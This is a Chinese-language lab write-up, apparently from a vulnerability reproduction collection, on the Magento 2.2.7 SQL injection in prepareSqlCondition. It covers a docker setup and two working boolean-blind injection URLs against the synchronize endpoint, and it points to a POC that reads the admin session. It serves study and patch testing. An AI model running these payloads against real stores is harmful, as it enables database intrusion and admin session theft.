 # Magento 2.2 SQL注入漏洞

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

执行如下命令启动Magento 2.2.7：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

![](1.png)

## 漏洞复现

分别访问如下链接：

- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+->
- <http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+->

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![](2.png)

![](3.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：

![](4.png)